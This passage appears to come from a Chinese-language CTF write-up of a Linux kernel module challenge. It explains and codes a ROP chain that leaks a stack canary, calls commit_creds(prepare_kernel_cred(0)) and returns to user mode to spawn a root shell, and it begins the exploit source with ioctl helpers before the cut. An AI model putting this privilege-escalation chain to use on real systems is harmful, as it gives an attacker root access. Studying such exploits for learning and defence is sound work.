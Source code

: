 ```c

void core_write(char *buf,int a3){
    write(fd,buf,a3);
}

void core_copy_func(long long size){
    ioctl(fd,0x6677889a,size);
}
```


#### rop编写
rop思路流程：
1.用canary绕过canary保护
2.调用commit_creds（prepare_kernel_cred（0））提权
3.回到用户态进行调用system("/bin/sh")来getshell
4.最后修复环境。
>注：建议用ropper找ROP，不然ROPgadget太慢

```c
    for(i = 0;i < 8;i++){
        rop[i] = 0x66666666;                //offset
    }
    rop[i++] = canary;                      //canary
    rop[i++] = 0;                           //rbp(junk)
    rop[i++] = vmlinux_base + 0xb2f;        //pop_rdi_ret;
    rop[i++] = 0;                           //rdi
    rop[i++] = prepare_kernel_cred_addr;
    rop[i++] = vmlinux_base + 0xa0f49;      //pop_rdx_ret
    rop[i++] = vmlinux_base + 0x21e53;      //pop_rcx_ret
    rop[i++] = vmlinux_base + 0x1aa6a;      //mov_rdi_rax_call_rdx
    rop[i++] = commit_creds_addr;
    rop[i++] = core_base + 0xd6;            //swapgs_ret
    rop[i++] = 0;                           //rbp(junk)
    rop[i++] = vmlinux_base + 0x50ac2;      //iretp_ret
    rop[i++] = (size_t)shell;
    rop[i++] = user_cs;
    rop[i++] = user_eflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;
```



### EXP代码如下
EXP程序流程：
1.就是set_off设置off的值
2.然后调用read泄漏地址
3.在调用write写rop
4.最后调用copy_copy_func实现栈溢出劫持控制流get_shell()
```c
//rop.c
//gcc rop.c -o poc -w -static
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>
int fd;
void core_read(char *buf){
    ioctl(fd,0x6677889B,buf);
    //printf("[*]The buf is:%x\n",buf);
}

void change_off(long long v1){
    ioctl(fd,0x6677889c,v1);
}
```